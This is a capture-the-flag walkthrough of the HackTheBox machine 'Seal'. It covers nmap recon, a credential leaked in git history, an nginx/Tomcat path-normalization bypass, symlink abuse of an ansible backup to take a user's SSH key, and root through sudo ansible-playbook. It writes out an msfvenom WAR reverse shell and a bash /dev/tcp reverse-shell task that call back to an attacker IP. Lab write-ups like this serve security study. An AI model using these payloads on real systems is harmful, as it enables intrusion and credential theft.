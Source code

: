 ```yaml
---
title: Seal HackTheBox
published: true
tags: htb tomcat path normalization msfvenom git history GitBucket ansible
---
```


## Recon

```bash
nmap -sC -sV -Ao nmap 10.10.10.250
```

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-02 08:33 CEST
Nmap scan report for 10.10.10.250
Host is up (0.023s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 4b:89:47:39:67:3d:07:31:5e:3f:4c:27:41:1f:f9:67 (RSA)
|   256 04:a7:4f:39:95:65:c5:b0:8d:d5:49:2e:d8:44:00:36 (ECDSA)
|_  256 b4:5e:83:93:c5:42:49:de:71:25:92:71:23:b1:85:54 (ED25519)
443/tcp  open  ssl/http   nginx 1.18.0 (Ubuntu)
|_http-title: Seal Market
| ssl-cert: Subject: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK
| Not valid before: 2021-05-05T10:24:03
|_Not valid after:  2022-05-05T10:24:03
| tls-nextprotoneg:
|_  http/1.1
|_http-server-header: nginx/1.18.0 (Ubuntu)
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
8080/tcp open  http-proxy
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 401 Unauthorized
|     Date: Fri, 02 Sep 2022 06:32:57 GMT
|     Set-Cookie: JSESSIONID=node01j0kvq70qbpqj11e6pkvdnh6s32.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   GetRequest:
|     HTTP/1.1 401 Unauthorized
|     Date: Fri, 02 Sep 2022 06:32:56 GMT
|     Set-Cookie: JSESSIONID=node05fxtqecve3hh15vos2gljmegx0.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   HTTPOptions:
|     HTTP/1.1 200 OK
|     Date: Fri, 02 Sep 2022 06:32:57 GMT
|     Set-Cookie: JSESSIONID=node0sh26ekxv2537kx25ph8zd1m1.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Allow: GET,HEAD,POST,OPTIONS
|     Content-Length: 0
|   RPCCheck:
|     HTTP/1.1 400 Illegal character OTEXT=0x80
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 71
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
|   RTSPRequest:
|     HTTP/1.1 505 Unknown Version
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 58
|     Connection: close
|     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
|   Socks4:
|     HTTP/1.1 400 Illegal character CNTL=0x4
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x4</pre>
|   Socks5:
|     HTTP/1.1 400 Illegal character CNTL=0x5
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x5</pre>
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.92%I=7%D=9/2%Time=6311A3A4%P=x86_64-pc-linux-gnu%r(Get
SF:Request,F4,"HTTP/1\.1\x20401\x20Unauthorized\r\nDate:\x20Fri,\x2002\x20
SF:Sep\x202022\x2006:32:56\x20GMT\r\nSet-Cookie:\x20JSESSIONID=node05fxtqe
SF:cve3hh15vos2gljmegx0\.node0;\x20Path=/;\x20HttpOnly\r\nExpires:\x20Thu,
SF:\x2001\x20Jan\x201970\x2000:00:00\x20GMT\r\nContent-Type:\x20text/html;
SF:charset=utf-8\r\nContent-Length:\x200\r\n\r\n")%r(HTTPOptions,106,"HTTP
SF:/1\.1\x20200\x20OK\r\nDate:\x20Fri,\x2002\x20Sep\x202022\x2006:32:57\x2
SF:0GMT\r\nSet-Cookie:\x20JSESSIONID=node0sh26ekxv2537kx25ph8zd1m1\.node0;
SF:\x20Path=/;\x20HttpOnly\r\nExpires:\x20Thu,\x2001\x20Jan\x201970\x2000:
SF:00:00\x20GMT\r\nContent-Type:\x20text/html;charset=utf-8\r\nAllow:\x20G
SF:ET,HEAD,POST,OPTIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,AD
SF:,"HTTP/1\.1\x20505\x20Unknown\x20Version\r\nContent-Type:\x20text/html;
SF:charset=iso-8859-1\r\nContent-Length:\x2058\r\nConnection:\x20close\r\n
SF:\r\n<h1>Bad\x20Message\x20505</h1><pre>reason:\x20Unknown\x20Version</p
SF:re>")%r(FourOhFourRequest,F5,"HTTP/1\.1\x20401\x20Unauthorized\r\nDate:
SF:\x20Fri,\x2002\x20Sep\x202022\x2006:32:57\x20GMT\r\nSet-Cookie:\x20JSES
SF:SIONID=node01j0kvq70qbpqj11e6pkvdnh6s32\.node0;\x20Path=/;\x20HttpOnly\
SF:r\nExpires:\x20Thu,\x2001\x20Jan\x201970\x2000:00:00\x20GMT\r\nContent-
SF:Type:\x20text/html;charset=utf-8\r\nContent-Length:\x200\r\n\r\n")%r(So
SF:cks5,C3,"HTTP/1\.1\x20400\x20Illegal\x20character\x20CNTL=0x5\r\nConten
SF:t-Type:\x20text/html;charset=iso-8859-1\r\nContent-Length:\x2069\r\nCon
SF:nection:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20
SF:Illegal\x20character\x20CNTL=0x5</pre>")%r(Socks4,C3,"HTTP/1\.1\x20400\
SF:x20Illegal\x20character\x20CNTL=0x4\r\nContent-Type:\x20text/html;chars
SF:et=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20close\r\n\r\n<
SF:h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20character\x20CN
SF:TL=0x4</pre>")%r(RPCCheck,C7,"HTTP/1\.1\x20400\x20Illegal\x20character\
SF:x20OTEXT=0x80\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nConte
SF:nt-Length:\x2071\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\x204
SF:00</h1><pre>reason:\x20Illegal\x20character\x20OTEXT=0x80</pre>");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.32 seconds
```

## Interpretation

There are three open ports: 22, 443 and 8080.

## Port 443

The website on port 433 seems to be not vulnerable. 
There are two input possibilities but basic xss, sqli testing reveals nothing interesting. 

## Port 8080

The application on port 8080 is GitBucket. Basic or default credentials are not wirking to login so creating a new account seems to be the way to go. We have access to two repositories. In the tomcat folder in the `tomcat-users.xml` there is no user entry but the git history reveals a deleted tomcat user with the credentials: `tomcat:42MrHBf*z8{Z%`. This password can be reused for the GitBucket service as user luis but this had no further impact. More looking around reveals that there is a nginx reverse proxy running which blocks requests to for example `/manager/html`

## Path traversal

This combination of tomcat and nginx is most often vulnerable to a path traversal attack as explained [here](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf). `10.10.10.250/manager;name=dennis/html/` did the trick because `/manager;name=dennis/html` doesn't match the pattern `/manager/html` checked by nginx so it forwards the request to the tomcat. The application server normalizes the reqest and throws the `;name=dennis`-part away so tomcat sees only `/manager/html`. For the managersite the previous found credentials are working so we have access to the admin panel. 

## Exploit

Creating an exploit which we can upload to the tomcat. 

```bash
msfvenom -p java/shell_reverse_tcp lhost=10.10.14.4 lport=4242 -f war -o rev.war7
```

Upload the war-File to the adminpanel and deploy it to the tomcat. 

### Notes to deploying to tomcat

1. Logically the request have to be intercepted with burpsuite because the deploy-Button has links to `/manager/html/upload...` which is blocked by nginx. So the path traversal should again be applied.
2. I had to add the host name to my `/etc/hosts`-file but I don't know why.

## Luis Shell    

From tomcat user we have to get shell as luis. Therefore we look around and find an [ansible](https://www.ansible.com/) playbook. This playbook under `/opt/backups/playbook` creates backups from `/var/lib/tomcat9/webapps/ROOT/admin/dashboard`. Luckily the `uploads` directory is writable by everybody. We have to symlink to home-directory from luis to that directory so next time a backup is created the home directory is also in this backup. 
```bash
ln -s /home/luis/ /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/
tar zxf backup-2021-09-04-07\:59\:32.gz --force-local
cd luis/.ssh
```
We can get the `id_rsa` file from luis and connect via ssh with his private key. Don't forget to set the wright permissions to the keyfile `chmod 600 key.luis`

```bash
ssh -i key.luis luis@seal.htb
```

## root

To list the commands which user luis can run without password run: `sudo -l`. 
According to the result `(ALL) NOPASSWD: /usr/bin/ansible-playbook *` it seems like every user can run an ansible-playbook as root without a password. 

## ansible commands

Looking around I found an [article](https://rioasmara.com/2022/03/21/ansible-playbook-weaponization/) whcich describes how to weaponize the ansible-playbook and build a reverse shell with it. 

```yml
- hosts: localhost
  tasks:
  - name: rev
    shell: bash -c 'bash -i >& /dev/tcp/10.10.14.18/4242 0>&1'
```
Run this .yml file with `sudo ansible-playbook run.yml` and start a listener on your maschine. 

